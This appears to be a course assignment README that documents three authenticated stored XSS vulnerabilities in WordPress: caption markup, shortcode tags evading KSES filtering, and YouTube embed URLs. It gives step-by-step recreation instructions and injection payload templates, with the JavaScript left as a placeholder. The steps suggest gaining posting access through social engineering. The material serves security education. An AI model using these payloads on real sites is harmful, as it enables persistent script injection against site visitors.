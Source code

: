 # Project-7-Codepath

**#1: Authenticated Stored Cross-Site Scripting (XSS)**

Recreating the Exploit

1 ) Gain access to an account with at least posting-level permissions via social engineering or another exploit. 
2 ) Either create a new page/post or modify an existing one.
3 ) Use the HTML editor (not the Visual editor) to insert code similar to the following and post:


`<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>`


**#2: Authenticated Shortcode Tags XSS**

Like the last one, this vulnerability also requires the attacker to have an account with posting capabilities. It takes advantage of a shortfall in WordPress's KSES filtering (which filters out non-whitelisted HTML tags).

Recreating the Exploit

1 ) Gain access to an account with at least posting-level permissions via social engineering or another exploit. 
2 ) Either create a new page/post or modify an existing one.
3 ) Use the HTML editor (not the Visual editor) to insert code similar to the following and post:


`[caption width="1" caption='<a href="' ">]</a><a href=" <Event-attribute-with-JS-code-here> ">Click me!</a>`

which WP processes to:

`<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" <Event-attribute-with-JS-code-here> ">Click me</a>`



**#3: Authenticated Stored XSS in YouTube URL Embeds**

Again, this vulnerability requires at least Contributor level privileges onto the site. Through this exploit, an attacker could take advantage of YouTube URL embeds to achieve a stored/persistent XSS attack that can affect any user who simply loads the compromised page.

Recreating the Exploit

1 ) Gain access to an account with at least posting-level permissions via social engineering or another exploit. 
2 ) Either create a new page/post or modify an existing one.
3 ) Use the HTML editor (not the Visual editor) to insert code similar to the following and post. Here, we demonstrate the vulnerability through the use of an embed shortcode:

`[embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]`

which WP processes to:

`<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>`


Reference: https://github.com/NairVish/cybersec-week7-assignment
